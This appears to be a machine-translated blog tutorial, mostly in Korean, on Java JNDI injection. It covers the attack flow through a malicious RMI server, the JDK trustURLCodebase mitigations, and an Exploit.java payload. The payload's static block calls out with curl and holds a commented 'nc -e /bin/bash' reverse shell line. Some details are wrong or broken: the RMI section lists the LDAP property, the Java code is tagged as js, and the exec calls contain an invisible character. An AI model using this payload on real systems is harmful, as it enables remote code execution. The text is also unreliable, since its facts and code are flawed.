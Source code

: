 - 대상 응용 프로그램 내에서 InitialContext.lookup(URI)가 호출됩니다. 여기서 URI는 사용자가 제어합니다.
- 공격자는 URI 매개변수를 조작하여 악의적인 RMI 서비스를 가리키도록 하며, 이를 위해 rmi://hacker.rmi/exploit과 같은 URL을 사용합니다.
- 공격자의 RMI 서버는 Reference 객체를 반환합니다. 이 Reference 객체에는 특별히 제작된 Factory 클래스가 포함되어 있습니다.
- 대상 응용 프로그램은 Factory 클래스를 동적으로 로드하고 인스턴스화하며, 그런 다음 factory.getObjectInstance()를 호출하여 외부 원격 객체 인스턴스를 얻습니다.
- 이 Factory 클래스의 인스턴스화는 악성 코드의 실행을 유발합니다. 이 코드는 Factory 클래스의 생성자, 정적 블록 또는 getObjectInstance() 메서드 내부에 작성되며 원격 코드 실행 (RCE)을 달성하기 위해 사용될 수 있습니다.

이 기술은 오라클이 RMI에 코드베이스 제한을 추가하기 이전인 Java 8u121까지 잘 작동했습니다.



위험을 방지하기 위해 가한 변경 사항은 다음과 같습니다:

-	RMI
    -	com.sun.jndi.ldap.object.trustURLCodebase
    -	JDK 6u132, 7u122, 8u113 이후부터 이 속성은 기본값으로 false를 가집니다.
    -	JNDI를 통해 가져온 RMI 객체가 원격으로 제공된 코드베이스 URL에서 자동으로 클래스 정의를 로드하는 것을 방지합니다.
    -	여기서 SecurityManager는 더 이상 로드할 수 있는 것을 제한합니다.




![Image 1](/assets/img/2024-05-15-JNDIInjectionTheCompleteStory_1.png)

2. LDAP

- com.sun.jndi.ldap.object.trustURLCodebase
- This property has a default value of false starting from JDK 6u211, 7u201, 11.0.1, 8u191, and later versions.
- Disables the automatic loading of Java class definitions from remote locations for objects retrieved via LDAP services in JNDI.

![Image 2](/assets/img/2024-05-15-JNDIInjectionTheCompleteStory_2.png)




3. Corba

- com.sun.jndi.cosnaming.object.trustURLCodebase
- JNDI를 통해 검색된 객체에서 원격 위치로부터 자바 클래스 정의를 자동으로로드하는 것을 비활성화합니다.

![image](/assets/img/2024-05-15-JNDIInjectionTheCompleteStory_3.png)

오래된 JDK 버전에서 JNDI를 악용하기



- 귀하의 악의적인 코드가 포함된 Exploit.java 파일을 만듭니다.

```js
public class Exploit {
    static {
        try {
          java.lang.Runtime.getRuntime().exec⠀("curl burp.com");
          // java.lang.Runtime.getRuntime().exec⠀("nc -e /bin/bash IP 4444");
        } catch (Exception e) {
            e.printStackTrace();
}}
```
